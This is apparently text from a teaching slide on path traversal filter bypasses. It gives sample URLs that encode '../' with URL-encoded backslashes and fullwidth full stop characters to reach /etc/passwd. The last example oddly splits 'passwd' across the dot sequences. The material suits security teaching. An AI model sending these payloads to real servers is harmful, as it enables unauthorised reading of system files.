

# Encoding is the process of converting data from one form to another.
With URL encoding of the backslash character
http://example/..%5c..%5csomeother/file
With Unicode U+FF0E (Fullwidth Full Stop):
https://example:443/%uff0e%uff0e/%uff0e%uff0e/%uff0e%uff0e/%uff0e%uff0e/%uff0e%uff0e/
%uff0e%uff0e/%uff0e%uff0e/%uff0e%uff0e/%uff0e%uff0e/%uff0e%uff0e/%uff0e%uff0e/
%uff0e%uff0e/etc/passwd
With a combination of above:
https://example:443/%uff0e%uff0e/%uff0e%uff0e/%uff0e%uff0e/%uff0e%uff0e/%uff0e%uff0e/%uff0e%uff0e%2fetc%2fpa%uff0e%uff0e/%uff0e%uff0e/%uff0e%uff0e/%uff0e%uff0e/%uff0e%uff0e/%uff0e%uff0e/
sswd